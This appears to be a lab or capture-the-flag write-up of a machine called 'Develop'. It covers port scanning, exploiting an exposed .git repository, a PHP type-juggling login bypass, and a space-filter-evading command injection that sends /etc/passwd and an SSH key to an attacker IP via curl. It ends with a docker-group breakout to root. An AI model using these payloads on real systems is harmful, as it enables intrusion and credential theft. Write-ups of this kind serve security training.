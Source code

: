 # Develop

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.135
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:38 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan on the HTTP ports as well:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.135      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:40 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
|_http-title: Develop Solutions
| http-git: 
|   192.168.160.135:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added fix to do 
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So there's a `.git` repository which we can download first.&#x20;

### Web + Git Enumeration

Port 80 hosts a corporate website:

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

If we click 'Get in touch', we are redirected to `develop.site/getintouch.php`. We can first add that to our `/etc/hosts` file and then enumerate further.&#x20;

The page reveals a simple Contact Form:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nothing much there. I ran a `gobuster` scan on the website and also downloaded the `.git` repository. While the `gobuster` scan ran, I enumerated the logs of the repository. Here's the interesting output:

```
$ git log -p -5
<TRUNCATED>
diff --git a/README.md b/README.md
index 4e81ff9..ef97745 100644
--- a/README.md
+++ b/README.md
@@ -1,6 +1,8 @@
 DONE:
 - Added staff vhost
 - Removed juicy files from git repo
-
+- Implemented blacklist & whitelist filters to prevent remote code execution reported by the last penetration test performed on our platform
+ 
 TODO:
-- Change weak passowrds
+- Change weak password
+- Remove commands from the whitelist like "cut" which are not needed anymore

...

diff --git a/init.sql b/init.sql
deleted file mode 100644
index e27be17..0000000
--- a/init.sql
+++ /dev/null
@@ -1,16 +0,0 @@
-DROP SCHEMA IF EXISTS app;
-CREATE SCHEMA app;
-USE app;
-
-CREATE TABLE staff(
-    id INT NOT NULL AUTO_INCREMENT,
-    username VARCHAR(20),
-    email VARCHAR(40),
-    password VARCHAR(255),
-    PRIMARY KEY(id)
-);
-
-# Inserting staff
-INSERT INTO staff(username, email, password) VALUES("franz", "franz@develop.info", "2df3f8123cd4cf019e215a37a19d0972");
-INSERT INTO staff(username, email, password) VALUES("alex", "alex@develop.info", "2af05664fdd33119293ce07da4509139");
-INSERT INTO staff(username, email, password) VALUES("lu191", "lu191@develop.info", "0e987654321098765432109876543210");
diff --git a/login.php b/login.php
deleted file mode 100644
index 28dd8b2..0000000
--- a/login.php
+++ /dev/null
@@ -1,101 +0,0 @@
-<?php
-session_start();
-require_once('database.php');
-
-if (isset($_POST['login'])) {
-  $username = $_POST['inputUsername'] ?? '';
-  $password = $_POST['inputPassword'] ?? '';
-  
-  if (empty($username) || empty($password)) {
-      $msg = 'Inserisci username e password %s';
-  } else {
-      $query = "
-          SELECT username, password, email
-          FROM staff
-          WHERE username = :username
-      ";
-      
-      $check = $pdo->prepare($query);
-      $check->bindParam(':username', $username, PDO::PARAM_STR);
-      $check->execute();
-      
-      $user = $check->fetch(PDO::FETCH_ASSOC);
-      
-      if (!$user || (md5($password) != $user['password'])) {
-          $msg = 'Credenziali utente errate %s';
-      } else {
-          session_regenerate_id();
-          $_SESSION['session_id'] = session_id();
-          $_SESSION['username'] = $user['username'];
-          $_SESSION['email'] = $user['email'];
-          
-          header('Location: ./dashboard/dashboard.php');
-          exit;
-      }
-  }
-}
-?>
```

Firstly, we have some mention of a blacklist and whitelist preventing RCE. Next, we have some hashes and users, of which the hashes don't crack.&#x20;

Lastly, we have `login.php` form, which uses the username concatenated with the MD5 of the password. This authentication mechanism is vulnerable to PHP type juggling since `===` is not used, hence magic hashes can be used to bypass the login.&#x20;

### Magic Hashes --> LFI SSH

The `.git` repository seems to be for the service running on port 8080:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

We can login with `lu191:240610708`, abusing the type juggling here and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

The Resources tab of the dashboard shows potential for RCE:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

So we know that this is probably still vulnerable to RCE, and it tells us when we are blocked.&#x20;

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I tested different commands, and found that `curl` isn't blocked:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Commands like `bash` and `sh` are blocked, and so are 'space' characters, so it will be difficult to get a reverse shell through `curl`. However, we can use this to read the files on the system by sending POST requests to our listening port 80.&#x20;

To overcome the space character block, we can use `${IFS}`. Using this, we can send POST requests with file contents using the `-F` flag:

{% code overflow="wrap" %}
```
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/etc/passwd"${IFS}http://192.168.45.191
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Using this method, I found that the user was `franz`. We can then attempt to read their private SSH key:

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker Group

As seen above, the user is part of the `docker` group, meaning that we can easily escalate privileges. Firstly, find the images present:

```
$ docker images                                                                                        
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE                                               
mysql        8.0.22    d4c3cafb11d5   2 years ago   545MB
```

&#x20;Just run this command from Hacktricks:

{% code overflow="wrap" %}
```
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host d4c3cafb11d5 chroot /host/ bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>
